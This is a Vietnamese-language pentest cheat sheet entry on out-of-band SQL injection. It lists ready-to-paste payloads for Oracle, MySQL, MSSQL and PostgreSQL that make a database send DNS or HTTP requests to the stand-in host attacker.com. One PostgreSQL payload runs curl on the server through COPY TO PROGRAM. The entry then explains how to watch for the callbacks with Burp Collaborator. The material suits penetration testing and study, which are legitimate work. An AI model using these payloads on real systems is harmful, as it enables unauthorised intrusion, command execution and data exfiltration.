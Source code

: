 ### Out-of-band SQLi
**Out-of-band SQLi:** là một loại tấn công SQL trong đó kẻ tấn công không nhận được phản hồi từ ứng dụng bị tấn công trên cùng một kênh giao tiếp mà thay vào đó có thể khiến ứng dụng gửi dữ liệu đến điểm cuối từ xa mà chúng kiểm soát.

Out-of-band SQL chỉ có thể thực hiện được nếu máy chủ bạn đang sử dụng có các lệnh kích hoạt yêu cầu DNS hoặc HTTP. Tuy nhiên, đó là trường hợp của tất cả các máy chủ SQL phổ biến.

**Payload:** 
```
Oracle: 
'; BEGIN UTL_HTTP.REQUEST('http://attacker.com'); END;-- (requires UTL_HTTP)

MySQL: 
'; SELECT LOAD_FILE(CONCAT('\\\\', 'test', '.attacker.com\\a'))--

MSSQL: 
'; EXEC master..xp_dirtree '//attacker.com/a'--

PostgreSQL: 
'; COPY (SELECT '') TO PROGRAM 'curl attacker.com'-- (requires perms)
```

**Hành động:** Chèn và theo dõi Burp Collaborator hoặc máy chủ DNS/HTTP tùy chỉnh. 

**Mong đợi:**  Tra cứu DNS hoặc yêu cầu HTTP tới attacker.com. 

**Mục tiêu:** Xác nhận SQLi có khả năng OOB để khai thác nâng cao. 